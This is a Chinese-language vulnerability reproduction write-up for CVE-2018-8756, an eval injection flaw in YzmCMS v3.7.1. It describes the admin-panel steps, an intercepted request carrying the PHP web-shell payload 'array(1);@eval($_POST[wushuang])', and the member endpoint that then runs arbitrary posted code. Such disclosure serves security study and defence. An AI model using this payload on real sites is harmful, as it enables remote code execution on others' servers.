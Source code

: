 ```yaml
---
title: "（CVE-2018-8756）YzmCMS v3.7.1 Eval注入漏洞"
id: zhfly3305
---
```


# （CVE-2018-8756）YzmCMS v3.7.1 Eval注入漏洞

## 一、漏洞简介

YzmCMS是中国程序员袁志蒙开发的一套开源的CMS（内容管理系统）。 YzmCMS 3.7.1版本中的yzmphp/core/function/global.func.php文件存在安全漏洞。远程攻击者可借助index.php?m=member&c=member_content&a=init请求的POST数据中的PHP代码利用该漏洞执行任意代码。

## 二、漏洞影响

YzmCMS v3.7.1

## 三、复现过程

首先，从网站后台登陆，/index.php?m=admin&c=index&a=init，然后选择模型管理，选 择模型 ID 为 1 的那个字段管理，然后添加字段，像下面这张图一样填表。

![image](../img/90e2cfb2d2e8c601b462fd128d45efe0.png)

接着需要拦截数据包，像图片一样，

```
修改 fieldtype 为 datetime，修改 datesest 为 array(1);@eval($_POST[wushuang]) 
```

![image](../img/207b7c3251a6970bc6bdc4f23e013ab2.png)

接着我们需要一个用户可以触发这个漏洞，选择会员管理，选择会员管理，添加用户， 填表如下。

![image](../img/d188b2518b2e19cc0e1eefe053194dfc.png)

现 在 我 们 已 经 完 成 了 准 备 工 作 ， 接 着 以 用 户 身 份 登 陆 ， guici/123456,/index.php?m=member&c=index&a=login，点击在线投稿，接着你就可以执行任 意代码通过输入 post 数据 wushuang！/index.php?m=member&c=member_content&a=init

![image](../img/ff22efcae1c97fc09513fe6f6ce1dc57.png)

## 参考链接

> https://github.com/guiciwushuang/yzmcms/blob/master/yzmcms_eval_injection_chinese.pdf